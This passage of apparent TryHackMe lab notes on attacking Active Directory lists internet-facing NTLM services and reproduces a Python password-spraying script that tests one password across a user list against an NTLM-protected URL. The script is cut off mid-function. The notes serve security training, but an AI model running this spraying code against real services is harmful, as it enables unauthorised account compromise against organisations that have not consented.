 - Then, use `systemctl restart NetworkManager` to restart networkmanager


![image](https://github.com/user-attachments/assets/71c18d06-828f-4091-88df-4100e56fdd0b)

![image](https://github.com/user-attachments/assets/8432cd08-493b-4692-a414-0699e1065797)

- Services applying NTLM can sometimes be facing the internet e.g

```python3
    Internally-hosted Exchange (Mail) servers that expose an Outlook Web App (OWA) login portal.
    Remote Desktop Protocol (RDP) service of a server being exposed to the internet.
    Exposed VPN endpoints that were integrated with AD.
    Web applications that are internet-facing and make use of NetNTLM.
 ```
- Script from thm to bruteforce credentials

```
#!/usr/bin/python3

import requests
from requests_ntlm import HttpNtlmAuth
import sys, getopt

class NTLMSprayer:
    def __init__(self, fqdn):
        self.HTTP_AUTH_FAILED_CODE = 401
        self.HTTP_AUTH_SUCCEED_CODE = 200
        self.verbose = True
        self.fqdn = fqdn

    def load_users(self, userfile):
        self.users = []
        lines = open(userfile, 'r').readlines()
        for line in lines:
            self.users.append(line.replace("\r", "").replace("\n", ""))

    def password_spray(self, password, url):
        print ("[*] Starting passwords spray attack using the following password: " + password)
        count = 0
        for user in self.users:
            response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
            if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
                print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
                count += 1
                continue
            if (self.verbose):
                if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                    print ("[-] Failed login with Username: " + user)
        print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")

def main(argv):
    userfile = ''
    fqdn = ''
    password = ''
    attackurl = ''

    try:
        opts, args = getopt.getopt(argv, "hu:f:p:a:", ["userfile=", "fqdn=", "password=", "attackurl="])
    except getopt.GetoptError:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)

```
